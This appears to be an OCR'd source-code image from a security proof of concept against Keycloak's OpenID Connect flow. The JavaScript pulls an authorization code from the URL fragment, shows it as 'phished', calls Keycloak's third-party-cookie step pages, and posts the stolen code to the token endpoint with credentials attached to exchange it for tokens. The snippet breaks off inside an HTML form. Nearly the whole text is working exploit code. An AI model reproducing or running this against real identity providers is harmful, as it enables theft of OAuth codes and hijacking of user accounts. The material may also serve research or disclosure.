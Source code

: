 ```JavaScript

    var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
    }, {});

    var code = result.code
    document.getElementById("code").innerHTML = "The code got phished: " + code;

    function submitStep1()
       {
        var step1 = new XMLHttpRequest();
        step1.open("GET", "http:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step1.html", true);
        step1.setRequestHeader("Accept", "*\/*");
        step1.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step1.send(new Blob([aBody]));
       }


    function submitStep2()
       {
        var step2 = new XMLHttpRequest();
        step2.open("GET", "http:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step2.html", true);
        step2.setRequestHeader("Accept", "*\/*");
        step2.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step2.send(new Blob([aBody]));
       }

    submitStep1();
    submitStep2();


    function submitRequest()
       {
         var xhr = new XMLHttpRequest();
         xhr.open("POST", "https:\/\/" + keycloak_url + "\/auth\/realms\/example\/protocol\/openid-connect\/token", true);
         xhr.setRequestHeader("Content-type", "application\/x-www-form-urlencoded");
         xhr.setRequestHeader("Accept", "*\/*");
         xhr.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
         xhr.withCredentials = true;
         var body = "code=" + code + "&grant_type=authorization_code&client_id=" + client_id + "&redirect_uri=" + redirect_uri;
         var aBody = new Uint8Array(body.length);
         for (var i = 0; i < aBody.length; i++)
           aBody[i] = body.charCodeAt(i);
         xhr.send(new Blob([aBody]));
       }
    </script>

    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
```